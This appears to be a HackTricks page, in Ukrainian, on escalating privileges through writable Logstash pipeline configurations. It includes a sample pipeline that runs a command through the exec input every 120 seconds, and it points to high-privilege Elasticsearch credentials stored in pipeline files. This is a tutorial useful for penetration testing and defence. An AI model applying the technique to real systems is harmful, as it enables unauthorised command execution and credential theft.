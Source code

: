 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


## Logstash

Logstash використовується для **збирання, перетворення та відправки логів** через систему, відому як **потоки**. Ці потоки складаються з етапів **входу**, **фільтрації** та **виходу**. Цікавий аспект виникає, коли Logstash працює на скомпрометованій машині.

### Налаштування потоку

Потоки налаштовуються у файлі **/etc/logstash/pipelines.yml**, який перераховує місця розташування конфігурацій потоків:
```yaml
# Define your pipelines here. Multiple pipelines can be defined.
# For details on multiple pipelines, refer to the documentation:
# https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
path.config: "/etc/logstash/conf.d/*.conf"
- pipeline.id: example
path.config: "/usr/share/logstash/pipeline/1*.conf"
pipeline.workers: 6
```
Цей файл розкриває, де розташовані **.conf** файли, що містять конфігурації конвеєра. При використанні **Elasticsearch output module** зазвичай **конвеєри** включають **Elasticsearch credentials**, які часто мають великі привілеї через необхідність Logstash записувати дані в Elasticsearch. Шаблони в шляхах конфігурації дозволяють Logstash виконувати всі відповідні конвеєри в призначеній директорії.

### Підвищення привілеїв через записувані конвеєри

Щоб спробувати підвищення привілеїв, спочатку визначте користувача, під яким працює служба Logstash, зазвичай це користувач **logstash**. Переконайтеся, що ви відповідаєте **одному** з цих критеріїв:

- Маєте **доступ на запис** до файлу конвеєра **.conf** **або**
- Файл **/etc/logstash/pipelines.yml** використовує шаблон, і ви можете записувати в цільову папку

Крім того, повинна бути виконана **одна** з цих умов:

- Можливість перезапустити службу Logstash **або**
- Файл **/etc/logstash/logstash.yml** має **config.reload.automatic: true** встановленим

З огляду на шаблон у конфігурації, створення файлу, що відповідає цьому шаблону, дозволяє виконувати команди. Наприклад:
```bash
input {
exec {
command => "whoami"
interval => 120
}
}

output {
file {
path => "/tmp/output.log"
codec => rubydebug
}
}
```
Тут **interval** визначає частоту виконання в секундах. У наведеному прикладі команда **whoami** виконується кожні 120 секунд, а її вивід направляється до **/tmp/output.log**.

З **config.reload.automatic: true** у **/etc/logstash/logstash.yml**, Logstash автоматично виявлятиме та застосовуватиме нові або змінені конфігурації конвеєра без необхідності перезавантаження. Якщо немає шаблону, зміни все ще можуть бути внесені в існуючі конфігурації, але слід бути обережним, щоб уникнути збоїв.


## References
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
